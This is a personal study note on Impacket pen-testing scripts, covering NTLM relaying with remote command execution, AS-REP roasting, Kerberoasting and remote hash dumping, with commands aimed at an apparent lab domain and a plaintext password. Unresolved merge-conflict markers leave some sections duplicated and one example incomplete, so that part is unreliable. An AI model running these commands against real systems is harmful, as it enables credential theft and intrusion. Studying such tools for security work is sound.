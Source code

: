 
# Python Impacket
Init.

Python [impacket](https://github.com/fortra/impacket/tree/master) is an open-source collection of scripts designed to interact with common [networking](/networking/OSI/network-layer.md) protocols. Many of the scripts can be used in pen-testing, especially against Windows targets.
## Common Scripts:
(I'm keeping a list here for my own use/ reference)
### [`smbrelayx.py`](https://github.com/fortra/impacket/blob/master/examples/smbrelayx.py)
### [`ntlmrelayx.py`](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
```bash
ntlmrelayx.py -tf targets.txt -smb2support -c 'whoami'
```
- `tf`: target file
- `-smb2support`: support SMB version 2
- `-c`: command to execute on target system
- `-i`: interactive (will give you a shell)
### [`GetNPUsers.py`](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)
<<<<<<< HEAD:cybersecurity/tools/exploitation/impacket.md
Get's TGTs for users in an [active-directory](../../../hidden/HTB-notes/active-directory.md) environment who have *[kerberos](../../../networking/protocols/kerberos.md) pre-authentication turned off.* This is useful to know because having pre-auth turned off means we can ask for their TGTs without supplying a password. 

Once you have a TGT you can crack it with something like [john](../cracking/john.md).
#### Example
```bash
python3 GetNPUsers.py 
```
### [`GetUserSPNs.py`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)
`impacket-GetUserSPNs -usersfile [users.lst](https://users.lst) -dc-ip 10.10.10.175 -request 'EGOTISTICAL-BANK.LOCAL/' -no-pass`
### [`secretdump.py`](https://github.com/fortra/impacket/blob/master/impacket/examples/secretsdump.py)
Will attempt to dump hashes from a remote machine *without executing an agent there.*
=======
Gets [kerberos](../../../../networking/protocols/kerberos.md) TGTs from users which have the *`UF_DONT_REQUIRE_PREAUTH`* (which means they have pre-authentication turned off). 

From these types of users we can get their *AS_REP* which is *partially encrypted using their password*. 

Once we have the AS-REP, we can give it to [hashcat](../../cracking/tools/hashcat.md) for cracking (and getting the plaintext password).
### [`GetUserSPNs.py`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)
```bash
impacket-GetUserSPNs -usersfile users.lst -dc-ip 10.10.10.175 -request 'EGOTISTICAL-BANK.LOCAL/' -no-pass
>>>>>>> d3d8a3bb6ad799f2200e81ed1a41d783a93034cf:cybersecurity/TTPs/exploitation/tools/impacket.md
```
### [`secretdump.py`](https://github.com/fortra/impacket/blob/master/impacket/examples/secretsdump.py)
```bash
secretsdump.py 'egotistical-bank.local/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
````
<<<<<<< HEAD:cybersecurity/tools/exploitation/impacket.md
- The domain, user, password, and IP should be surrounded in quotes
=======
- The domain, user, password, and IP should be surround in quotesq
>>>>>>> d3d8a3bb6ad799f2200e81ed1a41d783a93034cf:cybersecurity/TTPs/exploitation/tools/impacket.md

